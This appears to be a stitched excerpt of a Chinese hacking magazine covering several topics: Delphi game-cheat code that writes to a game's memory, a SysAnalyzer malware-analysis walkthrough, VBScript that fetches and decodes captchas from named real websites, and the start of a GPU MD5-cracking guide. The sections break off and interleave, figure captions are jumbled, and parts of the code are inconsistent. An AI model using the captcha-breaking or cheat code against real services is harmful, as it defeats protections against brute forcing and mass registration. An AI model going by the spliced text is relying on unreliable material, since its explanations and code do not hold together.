



### 第二部分：外挂编程篇

编程我们主要使用 Delphi 来实现，如果你擅长其他编程语言也可以用其他编程工具来编写，里面调用的 API 函数是一样的。我的界面设计如图 10 所示。下面就先编写功能代码，主要分修改核心代码，完整工程及外挂程序详见完整源代码包。

### 第一步：进程和内存获取

获得了游戏的基本信息就可以通过编程来实现几个简单的功能。关于相关函数的应用，MSDN 中有很详细的介绍，这里就不多说了，核心代码如下：

```pascal
begin
  // 获取进程号/游戏窗口句柄
  GameH := FindWindowW('T32770', '挖金子');
  // 通过窗口句柄获取进程号
  GetWindowThreadProcessId(GameH, GamePid);
  // 获取进程句柄
  gameProcess := OpenProcess(PROCESS_ALL_ACCESS, false, GamePid);
end;
```

### 第二步：修改内存数据

首先是时间无限功能的实现，这个功能可以通过定时修改时间基址的数据来实现，我这里用的是时间控件实现间隔写入。

`timers := 30000;`

踩雷不死功能也比较简单，通过前面分析，只要保持下面三个地址的数据一直是 0 就可以了，代码如下：

```pascal
under_0 := 0;
WriteProcessMemory(gameProcess, pointer($0043C698), @under_0, 4, WriteByte);
WriteProcessMemory(gameProcess, pointer($0043C788), @under_0, 4, WriteByte);
WriteProcessMemory(gameProcess, pointer($0043E08C), @under_0, 4, WriteByte);
```

秒杀功能可以通过修改座位号的方法实现。在调试的时候，座位号是这样的排列：0、1、2、3 分别代表上、右、下、左四个座位，如果写入某些异常值，则可实现秒杀效果。这应该是游戏的一个 bug 吧。具体代码很简单，如下：

```pascal
seckill := 4;
WriteProcessMemory(gameProcess, pointer($0043E1F4), @seckill, 4, WriteByte);
```

#### 病毒自动分析工具 SysAnalyzer

从本文您可以学到：如何使用 SysAnalyzer 进行病毒分析。看到论坛上有人能对病毒行为进行详细分析，这款工具可以辅助自动提取病毒行为。SysAnalyzer 是 iDEFENSE LABS 推出的行为分析工具，其最大特点是：分析自动化，并能生成报告。



界面功能显示栏包括如图 2 的几个部分，下面我们来了解一下。“Running Processes” 显示了系统进程情况，并生成了 `safe_test1.exe` 进程，如图 3，并列出了 PID、User 等相关信息。而且可以看出该进程被注入。“Open Ports” 显示了开放端口，并启用了 TCP 协议，只是网络没有进行数据传输，如图 5。





“ProcessDlls” 显示的是载入到 Explorer 及 IE 中的 DLL 文件，“Load Drivers” 显示的是加载的驱动，二者都没有发生变化，如图 6、7。









在 `HK\Software\Microsoft\Windows\CurrentVersion\Run` 下留下了一个 `evil-evil.exe` 的痕迹。本文示例显示了两个 API 函数：一个是注册表写入追踪，另一个是线程追踪，如图 8。







这两项的优点：一是不会干扰进程行为，二是降低了分析工作量。这对初学分析者来说很有必要。

### 二、安装及设置

SysAnalyzer 的安装很简单，一路 “Next” 即可。启动界面简洁如图 1。“Executable” 是要分析的目标程序，它必须是可执行文件，支持拖拽功能。Delay 表示每次快照的间隔时间，可以根据情况设定，一般默认的 3 秒就可以了。

### 三、病毒实战

我们以文件自带的 “Test Binary” 程序来做演示。点击 “Start” 后，SysAnalyzer 运行以下步骤：在程序运行前建立系统快照，运行后再次快照，然后通过两次快照对比分析得出差异，并生成报告，报告显示的是最终系统变化。





### 四、补充

需要特别提到的是，SysAnalyzer 并不具备静态分析功能，所以更适合结合 Sandbox 或 VMware 使用。这里建议配合“重命名”式分析思路，比如从 Autorun 里找启动项，或者用其他方式进行检测。

#### 利用 VBS 识别验证码

从本文您可以学到：

- 识别验证码的基本思路
- 如何用 VBS 制作简单的验证码识别程序

验证码一般用来防止暴力破解、批量注册、论坛灌水。随着验证码识别技术的提高，针对简单验证码的处理也越来越常见。文章中涉及的验证码有 0～9 十个数字，数字分布随机，干扰因素也比较容易排除。这种简单验证码的识别一般分为以下几个步骤：

- 提取字符
- 二值化
- 计算特征

下面以“c9page 文章发布系统”的验证码和“群英网”的验证码为例。

### “c9page 文章发布系统”的验证码

下面是验证码样本，如图 1、图 2 所示。验证码为 bmp 文件，数字颜色随机出现，数字分布较为平均。网页上此类验证码的颜色深浅会受影响，故可将其处理为 100% 阈值。bmp 文件有 8 位、16 位、24 位、32 位这几种不同位深度。

```vbscript
Dim a_Ary(3)
' 下载验证码
Set Post = CreateObject("Microsoft.XMLHTTP")
Post.Open "GET", "http://www.yang365.com/Common/checkcode.asp?c=c9page"
Post.Send
Set s = CreateObject("ADODB.Stream")
s.Type = 1
s.Mode = 3
s.Open()
s.Write(Post.responseBody)
s.SaveToFile "code.bmp", 2
s.Position = 54
Do While Not s.EOS
  ' 读取像素信息并处理
Loop
```



验证码上每个数字占 10 行，每行有 10 个像素。本文用 `a_Ary(i,0)=a_Ary(i) & a_Ary(i+0*40)` 方式取得特征值，并按 0～9 分别提取其像素信息，形成 4 位验证码识别代码。运行时先打开 code.bmp，通过读取 bmp 文件中 4 个数字的像素信息进行处理。

```vbscript
For i = 0 To 10 - 1
  For j = 0 To 10 - 1
    a_Ary(i,0) = a_Ary(i) & a_Ary(i+0*40)
    a_Ary(i,1) = a_Ary(i) & a_Ary(i+1*40)
    a_Ary(i,2) = a_Ary(i) & a_Ary(i+2*40)
    a_Ary(i,3) = a_Ary(i) & a_Ary(i+3*40)
  Next
Next

For i = 0 To UBound(a_Ary)
  SaveToLog "a_Num(" & i & ")=" & a_Ary(i) & vbCrLf
Next
```



运行 gfather1.vbs，验证码保存为 code.bmp，同时验证码 4 个数字的像素信息存入“样本.txt”。如果 code.bmp 显示为 1、1、8、8，则说明识别样本已生成。由于验证码位数及样式不同，本文给出的代码仅供参考。

### “群英网”的验证码

上面的破解过程是从分析图片格式开始的。由于不同图片有不同存储格式，分析过程不能保证每次都一致，因此不能据此识别所有图片。本案例使用的是从图片中提取像素信息的方法，在 ASPlayer 中直接读取图像颜色信息，利用规律生成识别特征。


大致操作如下：首先把图片转成位图，利用 Windows 自带“画图”程序打开，点击“选择”→“缩放”→“自定义”，将“自定义缩放”设置为 800%，然后点击“查看”→“缩放”→“显示”。

### 2010 第一季
#### GPU 大显神威破密码

### 从本文您可以学到：
- 使用 BarsWF 破解密码

由于有随机干扰因素的存在，在复制前还要对提取的像素信息进行修正。此图中第一个数字的像素信息为（注意是第一个测试案例，非规范第二列、第三列、第四列）。

示例图，如图 6。图片的像素信息一如原来，一个小方格代表一个像素，可以看出图片宽 40 像素，高 20 像素。以图片左上角为坐标原点而言，图片中字母的有效范围为（4，6）到（34，16），我们把数字部分提取出来，如图 7。

图 6 示例图
图 7 数字部分提取
图 8 像素信息截取
图 1 主页
图 2 破解过程
图 3 程序代码
图 4 运行结果
图 5 例题

```vbscript
Dim a_yun(9), a_ary(3)
Dim a_ary(4)
Set Post = CreateObject("Msxml2.XMLHTTP")
Post.Open "GET", "http://xianguo.com/service/validate?key=..."
Post.Send
Set Jpeg = CreateObject("Persits.Jpeg")
Jpeg.OpenBinary(Post.responseBody)
Jpeg.Save "code.png"
For i = 0 To 3
    Jpeg.OpenBinary(Post.responseBody)
    Jpeg.Crop 4, 6, 34, 16
    Jpeg.Save "code.png"
Next
```

```vbscript
a_Num(1) = "FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"
a_Num(2) = "FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"
a_Num(3) = "FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"
a_Num(4) = "FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"
a_Num(5) = "FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF"
```

```vbscript
Function ArrayCompare(str1, str2)
    Dim i, Ret1, Ret2
    For i = 1 To Len(str1)
        If Mid(str1, i, 1) = Mid(str2, i, 1) Then Ret1 = Ret1 + 1
    Next
    ArrayCompare = Ret1
End Function
```

运行 xianguo.vbs，验证码保存为 xianguo.png，同时弹出对话框显示验证图像上的数字。

### 尾语
本来还有几个例子，由于篇幅和工作关系，以后有时间再发出来吧。网上很多验证码识别代码都是用 C 语言写的，其实利用脚本更容易提取图像的数据，特别是 PHP、ASP.net 等，本文就不必多说了。本文也欢迎邮件交流，和我联系，多谢。欢迎发信给我，大家多多交流。

除此之外，C 语言中的一切都可以实现。我们先从验证码的图像做图像处理的开始。由于在这个场景中，BarsWF 号称其破解速度比其它工具更快，所以本文将以它为例。

MD5 bruteforce benchmark
Comparisons: CUDA

## 基础 | Q 版黑客
### 2010 第一季

主页上列出了 BarsWF 与其它破解工具的性能对比，现在让我们下载这个软件吧。点“barswf md5 crack”这个软件分别支持 64 位和 32 位的系统，并且有三大类：AMD BROOK Beta 0.9，CUDA 0.8，SSE2。

让我解释一下，如果你下载第一个的话，就表示你的硬件必须支持双线程的跟我们使用的 AMD 的硬件，所以这里就不做解释，直接放弃。第二个 CUDA，这表明显卡一定要支持 CUDA，才可以运行；SSE2 版本则要求 CPU 支持 SSE2 指令集。

现在我们的 CPU 不是特别优秀，所以考虑下载 CUDA 0.8 的那个版本。因为通过我的测试，发现 CUDA 快些。

我们先下载 SSE2 版本做准备，在跑动时会用到很多参数：
- `-a`：指定类型为 32 位 MD5 HASH
- `-b`：设置输出的基数为 1
- `-n`：指定字符的最大长度

